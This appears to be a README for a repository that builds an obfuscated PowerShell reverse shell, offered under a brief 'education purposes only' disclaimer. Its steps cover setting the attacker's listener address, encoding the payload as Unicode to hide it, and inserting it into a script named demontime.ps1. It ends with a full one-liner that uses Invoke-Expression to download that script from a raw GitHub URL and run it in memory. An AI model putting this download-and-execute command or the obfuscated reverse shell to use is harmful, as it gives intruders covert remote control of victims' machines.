 ⚠️ Disclaimer: Employing the methods and principles outlined in this repository to obtain unauthorized entry into systems without proper authorization is against the law. You are accountable for your conduct. Act responsibly and refrain from engaging in malicious activities. This is for education purposes only


**Instructions**

1. Edit the Obfuscated PowerShell reverse shell one liner script with your chosen listener IP Address and Port number.
2. Use the Python script to convert the PowerShell reverse shell one liner characters to its Unicode format.
3. Replace the Unicode payload on the demontime.ps1 script with the output generated from the Python script.

**Optional**

Fork this repo so you can run the following one liner:
`iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/xxxxxx/experiment/main/demontime.ps1'));demontime`
